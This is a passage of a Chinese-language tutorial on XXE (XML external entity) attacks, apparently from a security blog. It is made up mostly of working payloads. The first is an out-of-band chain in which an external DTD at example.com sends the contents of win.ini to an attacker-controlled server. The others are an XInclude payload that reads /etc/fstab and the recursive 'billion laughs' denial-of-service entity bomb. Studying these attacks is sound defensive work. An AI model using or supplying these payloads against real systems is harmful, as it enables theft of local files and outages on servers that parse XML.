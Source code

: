 利用参数实体，我们能够把需要读取的文件通过一些协议（http ftp等）发送到我们的服务器上，那么通过日志查看就能获取数据了 我们可以这么构造

```
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE roottag [
<!ENTITY % file SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % dtd SYSTEM "http://example.com/evil.dtd"> %dtd;]>
<roottag>&send;</roottag>

```

然后在我们可控的http://example.com/

放置如下DTD

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>"> %all;

```

流程如下

![RHM](http://drops.javaweb.org/uploads/images/e3277ded0314840e1b87fc4ff533e70f95241afd.jpg)

XXE的奇门遁甲
--------

### 基于XInclude的文件包含

XInclude提供了一种较为方便的取回数据的思路（再也不用担心数据不完整而导致parser抛出一个错误）而我们能够通过parse属性，强制引用文件的类型。

```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///etc/fstab" parse="text"/>
</root>

```

不过Xinclude需要手动开启，测试发现所有xml parser都默认关闭这一特性。

### 拒绝服务

XXE攻击也能用来发起拒绝服务攻击

如下的递归引用，从下至上以指数形式增多

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

```

